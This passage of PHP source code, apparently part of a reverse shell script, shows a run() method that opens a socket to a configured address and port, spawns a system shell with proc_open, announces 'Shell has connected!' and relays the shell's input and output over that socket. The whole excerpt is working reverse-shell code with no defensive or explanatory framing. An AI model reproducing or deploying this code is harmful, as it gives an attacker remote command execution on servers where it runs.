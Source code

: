 ```php
            // for some reason Windows OS pipes STDIN into STDOUT
            // we do not like that
            // we need to discard the data from the stream
            while ($this->clen > 0 && ($bytes = $this->clen >= $this->buffer ? $this->buffer : $this->clen) && $this->read($input, $iname, $bytes)) {
                $this->clen -= $bytes;
                $size -= $bytes;
            }
        }
        while ($size > 0 && ($bytes = $size >= $this->buffer ? $this->buffer : $size) && ($data = $this->read($input, $iname, $bytes)) && $this->write($output, $oname, $data)) {
            $size -= $bytes;
            $this->dump($data); // script's dump
        }
    }
    public function run() {
        if ($this->detect() && !$this->daemonize()) {
            $this->settings();

            // ----- SOCKET BEGIN -----
            $socket = @fsockopen($this->addr, $this->port, $errno, $errstr, 30);
            if (!$socket) {
                echo "SOC_ERROR: {$errno}: {$errstr}\n";
            } else {
                stream_set_blocking($socket, false); // set the socket stream to non-blocking mode | returns 'true' on Windows OS

                // ----- SHELL BEGIN -----
                $process = @proc_open($this->shell, $this->descriptorspec, $pipes, null, null);
                if (!$process) {
                    echo "PROC_ERROR: Cannot start the shell\n";
                } else {
                    foreach ($pipes as $pipe) {
                        stream_set_blocking($pipe, false); // set the shell streams to non-blocking mode | returns 'false' on Windows OS
                    }

                    // ----- WORK BEGIN -----
                    $status = proc_get_status($process);
                    @fwrite($socket, "SOCKET: Shell has connected! PID: {$status['pid']}\n");
                    do {
                        $status = proc_get_status($process);
                        if (feof($socket)) { // check for end-of-file on SOCKET
                            echo "SOC_ERROR: Shell connection has been terminated\n"; break;
                        } else if (feof($pipes[1]) || !$status['running']) {                 // check for end-of-file on STDOUT or if process is still running
                            echo "PROC_ERROR: Shell process has been terminated\n";   break; // feof() does not work with blocking streams
                        }                                                                    // use proc_get_status() instead
                        $streams = array(
                            'read'   => array($socket, $pipes[1], $pipes[2]), // SOCKET | STDOUT | STDERR
                            'write'  => null,
                            'except' => null
                        );
                        $num_changed_streams = @stream_select($streams['read'], $streams['write'], $streams['except'], 0); // wait for stream changes | will not wait on Windows OS
                        if ($num_changed_streams === false) {
                            echo "STRM_ERROR: stream_select() failed\n"; break;
                        } else if ($num_changed_streams > 0) {
                            if ($this->os === 'LINUX') {
```